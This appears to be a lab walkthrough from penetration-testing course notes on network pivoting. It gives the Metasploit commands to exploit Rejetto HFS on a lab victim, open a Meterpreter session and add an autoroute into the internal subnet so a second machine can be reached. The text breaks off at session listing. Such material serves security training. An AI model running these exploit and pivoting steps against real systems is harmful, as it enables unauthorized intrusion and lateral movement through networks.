 # Demo: Pivoting（演示：旋转）
Kali: 10.10.5.2

Victim Machine 1 : 10.2.27.1

Victim Machine 2 : 10.2.27.187

```
ping 10.2.27.1
ping 10.2.27.187
```

```
service postgresql start && msfconsole -q
workspace -a pivoting
db_nmap -sV 10.2.27.1
search rejetto
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOSTS 10.2.27.1
exploit
```

```
meterpreter > sysinfo
```

We now need to utilize our access on victim 1 to gain access to victim 2.

Victim 2 is part of the same subnet that victim 1 is on.

```
meterpreter > ipconfig

Interface 12
============
IPv4 Address : 10.2.27.1
IPv4 Netmask : 255.255.240.0
```

Then utilize Meterpreter to add a route.

`-s`: Specify the subnet that we want to establish a route to. The range of this network is limited to 20.

```
meterpreter > run autoroute -s 10.2.27.0/20 
```

That means we can now access that subnet with MSF console. An the reason that is the case is because we utilize our Meterpreter session to add the route. That way, Meterpreter is very intelligent, and that means we can utilize other modules to scan the victim 2.

Put this session in the background.

List out the sessions here.

```
sessions
sessions -h
```
